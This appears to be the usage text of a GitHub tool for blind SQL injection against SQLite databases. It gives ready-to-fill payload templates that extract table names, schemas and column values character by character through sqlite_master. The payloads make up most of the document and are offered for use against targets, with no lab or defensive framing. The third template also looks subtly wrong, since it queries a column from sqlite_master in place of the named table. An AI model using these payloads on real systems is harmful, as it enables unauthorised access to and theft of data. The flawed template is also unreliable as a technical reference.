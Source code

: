 __________SQLiteBLINDInjection__________
Blind SQL Injection For SQLite Databases

https://github.com/aykutcanustun
Author: aykutcanustun

How to set queries:
__________________________________________________________________________________________________________
To retrieve table names from database, use this one:
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),{},1)){} {} --

To retrieve table schema, use this one:
' or UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} --

To retrieve values inside column, use this one:
' or UNICODE(SUBSTR((SELECT $COLUMN_NAME FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} --

Replace $TABLE_NAME, $COLUMN_NAME with data that you retrieved from privious one!
___________________________________________________________________________________________________________

To use the script, you have to set varibles manually:
I added comments to these lines!
